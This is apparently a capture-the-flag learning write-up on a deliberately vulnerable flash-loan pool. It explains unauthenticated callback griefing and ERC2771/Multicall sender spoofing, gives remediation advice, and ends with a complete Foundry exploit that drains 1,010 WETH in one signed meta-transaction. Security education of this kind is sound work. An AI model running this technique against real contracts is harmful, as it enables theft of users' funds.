

# Challenge 02: Naive Receiver — Audit Write-Up & Learning Notes

- **Category:** Access Control (Callback Griefing) + Composability / Meta-Transaction Spoofing (`CVE-2023-49795`)
- **Contracts in Scope:**
  - [`src/naive-receiver/FlashLoanReceiver.sol`](../src/naive-receiver/FlashLoanReceiver.sol)
  - [`src/naive-receiver/NaiveReceiverPool.sol`](../src/naive-receiver/NaiveReceiverPool.sol)
  - [`src/naive-receiver/Multicall.sol`](../src/naive-receiver/Multicall.sol)
  - [`src/naive-receiver/BasicForwarder.sol`](../src/naive-receiver/BasicForwarder.sol)
- **Test File:** [`test/naive-receiver/NaiveReceiver.t.sol`](../test/naive-receiver/NaiveReceiver.t.sol)

---

## 1. Scenario & Objective

- `NaiveReceiverPool` holds **1,000 WETH** (deposited by `deployer`) and offers flash loans with a fixed fee of **1 WETH** (`FIXED_FEE = 1e18`).
- The pool supports gasless meta-transactions by integrating with `BasicForwarder` (`trustedForwarder`) and also inherits `Multicall`.
- A user deployed `FlashLoanReceiver` and funded it with **10 WETH** so it can take flash loans from the pool.
- **Objective:** As `player` (starting with `0 WETH` and private key `playerPk`), rescue all **10 WETH** from `FlashLoanReceiver` and all **1,000 WETH** from `NaiveReceiverPool`, sending all **1,010 WETH** to `recovery` in **2 or fewer transactions** (`vm.getNonce(player) <= 2`).

---

## 2. My Initial Understanding & Stepping Back When Overwhelmed

At first, when I looked at all the moving pieces at once—EIP-3156 callbacks, inline assembly, WETH, `BasicForwarder`, EIP-712 signatures, and `Multicall`—I felt lost and needed to reset from the very beginning.

Stepping back to plain English helped me see the core story:

1. **The Bank (`NaiveReceiverPool`):** Holds `1,000 WETH`. That money belongs to `deployer` (`deposits[deployer] = 1,000 WETH`).
2. **The Naive Customer (`FlashLoanReceiver`):** Holds `10 WETH` to pay for future flash loan fees (`1 WETH` per loan).
3. **My Goal (`player`):** Move the customer's `10 WETH` and the bank's `1,000 WETH` (`1,010 WETH` total) into `recovery` in at most 2 transactions.

Before jumping to exploits, I did manage to decode the inline assembly guard at the top of `FlashLoanReceiver.onFlashLoan` ([`FlashLoanReceiver.sol` lines 19–32](../src/naive-receiver/FlashLoanReceiver.sol#L19-L32)):

```solidity
assembly {
    // 1. sload(pool.slot) reads the configured `pool` address from storage slot 0.
    // 2. caller() gets the immediate caller's address (msg.sender).
    // 3. eq(...) compares both addresses; iszero(...) checks if they differ.
    // 4. mstore(0x00, 0x48f5c3ed) writes the 4-byte error selector to memory.
    // 5. revert(0x1c, 0x04) stops execution and returns those 4 bytes.
    if iszero(eq(sload(pool.slot), caller())) {
        mstore(0x00, 0x48f5c3ed)
        revert(0x1c, 0x04)
    }
}
```

I also grouped flash loan security checks into four mental categories:

1. **Authentication:** Who is calling me right now? (`caller() == pool`)
2. **Authorization:** Is the initiator permitted to trigger this operation?
3. **Validation:** Are the supplied parameters and state valid?
4. **Repayment Verification:** Has the pool received back what it is owed?

---

## 3. Pain Points, Misconceptions & How I Worked Through Them

Here are the exact stumbling blocks I hit during my investigation and what the code taught me when I traced it closely:

### Pain Point 1: "How does an auditor figure out why `FlashLoanReceiver` is called 'Naive'?"

I asked how an auditor spots that `FlashLoanReceiver` never checks who asked for the loan. This led me to a repeatable **4-Step Auditor Checklist**:

1. **Find where money leaves the contract:** In `FlashLoanReceiver.sol`, the _only_ line where money leaves is line 44:

   ```solidity
   WETH(payable(token)).approve(pool, amountToBeRepaid);
   ```

2. **Look at the function signature for "Unnamed Parameters" (Huge Red Flag!):**
   Look at line 15 of `FlashLoanReceiver.sol`:

   ```solidity
   function onFlashLoan(address, address token, uint256 amount, uint256 fee, bytes calldata)
   ```

   The very first parameter (`address`) has **no variable name**! In Solidity, developers leave a parameter unnamed when they don't use it inside the function.

3. **Compare against a safe implementation:**
   Back in Challenge 1 (`UnstoppableMonitor.sol`), `onFlashLoan` named that first parameter `address initiator` and checked `if (initiator != address(this)) revert UnexpectedFlashLoan();`. Here in Challenge 2, `FlashLoanReceiver` deleted the name `initiator` and only checked `caller() == pool`!
4. **Check who controls that input:**
   In `NaiveReceiverPool.sol` (line 53), the pool calls `receiver.onFlashLoan(msg.sender, ...)`. Because `pool.flashLoan` has no access control, **anyone** can call `pool.flashLoan(receiver, ...)` and force `receiver` to execute `onFlashLoan`!

---

### Pain Point 2: "Can you really borrow `0 WETH` and still pay a `1 WETH` fee?"

In Challenge 1 (`UnstoppableVault.sol`), borrowing `0` reverted with `InvalidAmount(0)`. So I questioned why borrowing `0 WETH` works here and still charges `1 WETH`.
Checking `NaiveReceiverPool.sol` gave me two concrete answers:

1. There is **no** `if (amount == 0) revert` check in `NaiveReceiverPool.flashLoan`.
2. Look at `flashFee` in [`NaiveReceiverPool.sol` (lines 40–43)](../src/naive-receiver/NaiveReceiverPool.sol#L40-L43):

   ```solidity
   function flashFee(address token, uint256) external view returns (uint256) {
       if (token != address(weth)) revert UnsupportedCurrency();
       return FIXED_FEE;
   }
   ```

   There's that **unnamed parameter red flag** again (`uint256`)! The pool ignores the borrowed amount completely and always charges `FIXED_FEE` (`1e18` = 1 WETH).

---

### Pain Point 3: How Many Calls to Drain 10 WETH, and Where Does the Fee Go?

- **My initial misconception #1:** I initially thought calling `pool.flashLoan(receiver, address(weth), 0, "")` **just once** would drain all `10 WETH` from `receiver`.
  - **Correction from tracing the math:** On each call, the pool sends `+amount` to `receiver` and pulls `-(amount + 1 WETH)` back. The `amount` cancels out:
    (10 + amount) - (amount + 1) = 9 WETH
    Because the fee is a fixed `1 WETH` per call, `receiver` only loses `1 WETH` per call. Therefore, it takes **10 calls** to drain all `10 WETH`.
- **My initial misconception #2:** When asked whose `deposits[...]` balance increases inside `NaiveReceiverPool` when the `10 WETH` fee is paid, I initially guessed **the borrower**.
  - **Correction from tracing line 69 of `NaiveReceiverPool.sol`:**

    ```solidity
    uint256 amountWithFee = amount + FIXED_FEE;
    weth.transferFrom(address(receiver), address(this), amountWithFee);
    totalDeposits += amountWithFee;

    deposits[feeReceiver] += FIXED_FEE;
    ```

    The borrower (`receiver`) is the one _paying_ the fee into the pool! Line 69 credits `deposits[feeReceiver]`. And in `setUp()`, `feeReceiver` was set to **`deployer`**.

  - **Key Insight:** After 10 flash loans against `receiver`, `receiver` has `0 WETH`, and **all `1,010 WETH` in the entire challenge sits inside `NaiveReceiverPool` under `deposits[deployer]`** (`1,000` initial + `10` from fees)!

---

### Pain Point 4: Refreshing `delegatecall` in the Context of `Multicall.sol`

Once all `1,010 WETH` was in `deposits[deployer]`, I applied the "Follow the Money Going Out" rule to `NaiveReceiverPool.sol` and found `withdraw()` (lines 77–84):

```solidity
function withdraw(uint256 amount, address payable receiver) external {
    deposits[_msgSender()] -= amount;
    totalDeposits -= amount;
    weth.transfer(receiver, amount);
}
```

To withdraw `deployer`'s `1,010 WETH`, `_msgSender()` had to return `deployer`.
Looking at `_msgSender()` (lines 108–114):

```solidity
function _msgSender() internal view override returns (address) {
    if (msg.sender == trustedForwarder && msg.data.length >= 20) {
        return address(bytes20(msg.data[msg.data.length - 20:]));
    } else {
        return super._msgSender();
    }
}
```

I was rusty on how `delegatecall` worked inside `Multicall.sol`:

```solidity
function multicall(bytes[] calldata data) external virtual returns (bytes[] memory results) {
    results = new bytes[](data.length);
    for (uint256 i = 0; i < data.length; i++) {
        results[i] = Address.functionDelegateCall(address(this), data[i]);
    }
    return results;
}
```

Here is the crucial EVM distinction I learned:

- Why does `Multicall` use `delegatecall` instead of `call`? Because a normal `address(this).call(data[i])` would change `msg.sender` to `address(this)` (the Pool). `delegatecall` **preserves `msg.sender`** from the outer call!
- **The Catch:** While `delegatecall` preserves `msg.sender`, it **replaces `msg.data`** with `data[i]`!

---

### Pain Point 5: Function Selector (`msg.data` Start) vs. Appended Sender (`msg.data` End)

When asked what bytes `_msgSender()` reads inside the inner `delegatecall(address(this), data[0])` when it checks `msg.data[msg.data.length - 20:]`, I initially guessed it might be reading the **function selector**.

Clarifying how `msg.data` (calldata) is laid out from left to right fixed this for me:

```text
| Bytes 0..3 (First 4 Bytes) | Bytes 4..35 (32 Bytes) | Bytes 36..67 (32 Bytes) | Last 20 Bytes (Glued by Me!) |
|----------------------------|------------------------|-------------------------|------------------------------|
| Function Selector          | Param 1: amount        | Param 2: receiver       | deployer address             |
| (withdraw)                 | (1010e18)              | (recovery)              | (Read by _msgSender()!)      |
```

- The **Function Selector** is always the **first 4 bytes** (`msg.data[0:4]`).
- `_msgSender()` reads `msg.data[msg.data.length - 20:]`, which is the **last 20 bytes**!
- Because Solidity's ABI decoder for `withdraw(uint256, address)` only reads the first `4 + 32 + 32 = 68` bytes and ignores trailing bytes, I can glue `deployer`'s 20-byte address onto the end of `data[10]`, and `_msgSender()` will read `deployer`!

---

## 4. Vulnerability Analysis & Exploit Mechanics

### Combining Both Bugs into One Transaction



### Why We Cannot Call `pool.multicall` Directly (Skipping `BasicForwarder`)

If `player` called `pool.multicall(callData)` directly without going through `BasicForwarder`, then inside `_msgSender()`, `msg.sender == trustedForwarder` would be `false`. It would fall back to the default behaviour (`super._msgSender()`), returning `player`—whose deposit balance is `0`. Going through `BasicForwarder` is what sets `msg.sender = trustedForwarder`.

---

## 5. Solidity & Foundry Implementation Notes (Mistakes I Corrected)

While writing `test_naiveReceiver()` from scratch, I learned four practical Solidity/Foundry lessons:

1. **`abi.encodeCall` and `abi.encodePacked`:**
   - `abi.encodeCall(ContractName.functionName, (arg1, arg2))` type-checks and encodes a function call into `bytes` without executing it.
   - `abi.encodePacked(partA, partB)` glues bytes together end-to-end without padding between them.
2. **Fixed-size `memory` arrays don't have `.push()`:**
   - I first wrote `callData.push[...]`, which only works on dynamic `storage` arrays. For `bytes[] memory callData = new bytes[](11)`, I needed to assign by index: `callData[i] = ...`.
3. **Zero-based Array Indexing:**
   - An array of length `11` (`new bytes[](11)`) has indices `0` through `10`. The 11th item is `callData[10]`, not `callData[11]`.
4. **Forwarder Nonces Start at `0`:**
   - I initially guessed the first `nonce` in `BasicForwarder` was `1`. Checking `BasicForwarder.sol` showed that `mapping(address => uint256) public nonces` defaults to `0`, and `_checkRequest` checks `nonces[request.from] != request.nonce` _before_ `nonces[request.from]++` increments it. Calling `forwarder.nonces(player)` queries the exact current value automatically.

### Final Exploit Code (`test/naive-receiver/NaiveReceiver.t.sol`)

```solidity
function test_naiveReceiver() public checkSolvedByPlayer {
    bytes[] memory callData = new bytes[](11);

    // 1. Pack 10 zero-amount flash loans to drain FlashLoanReceiver's 10 WETH into deposits[deployer]
    for (uint256 i = 0; i < 10; i++) {
        callData[i] = abi.encodeCall(NaiveReceiverPool.flashLoan, (receiver, address(weth), 0, bytes("")));
    }

    // 2. Pack withdraw(1010e18, recovery) with `deployer` glued to the last 20 bytes
    uint256 totalAmount = WETH_IN_POOL + WETH_IN_RECEIVER;
    callData[10] = abi.encodePacked(
        abi.encodeCall(NaiveReceiverPool.withdraw, (totalAmount, payable(recovery))),
        bytes32(uint256(uint160(deployer)))
    );

    // 3. Build the meta-transaction Request for BasicForwarder
    BasicForwarder.Request memory request = BasicForwarder.Request({
        from: player,
        target: address(pool),
        value: 0,
        gas: 30000000,
        nonce: forwarder.nonces(player),
        data: abi.encodeCall(Multicall.multicall, (callData)),
        deadline: 1 days
    });

    // 4. Hash according to EIP-712 and sign with playerPk
    bytes32 requestHash =
        keccak256(abi.encodePacked("\x19\x01", forwarder.domainSeparator(), forwarder.getDataHash(request)));

    (uint8 v, bytes32 r, bytes32 s) = vm.sign(playerPk, requestHash);
    bytes memory signature = abi.encodePacked(r, s, v);

    // 5. Execute via forwarder in 1 single transaction
    forwarder.execute(request, signature);
}
```

---

## 6. Lessons Learned & Audit Revision Checklist

1. **Always check both `msg.sender` AND `initiator` in callbacks:**
   - Whether auditing EIP-3156 (`onFlashLoan`), Aave (`executeOperation`), Uniswap V3 (`uniswapV3SwapCallback`), NFT hooks (`onERC721Received`), or cross-chain messaging endpoints, verifying `msg.sender == pool` only proves _which contract called you_—it does **not** prove _who triggered that contract_!
2. **Beware of `ERC2771Context` + `Multicall` (`CVE-2023-49795`):**
   - Two battle-tested contracts can become critically vulnerable when combined.
   - Because `Multicall` uses `delegatecall`, it preserves `msg.sender == trustedForwarder` while replacing `msg.data` with user-controlled sub-call bytes.
   - **Remediation:** In OpenZeppelin's patched `Multicall`, the contract re-appends the outer `_msgSender()` to the end of each `data[i]` before executing `functionDelegateCall`.
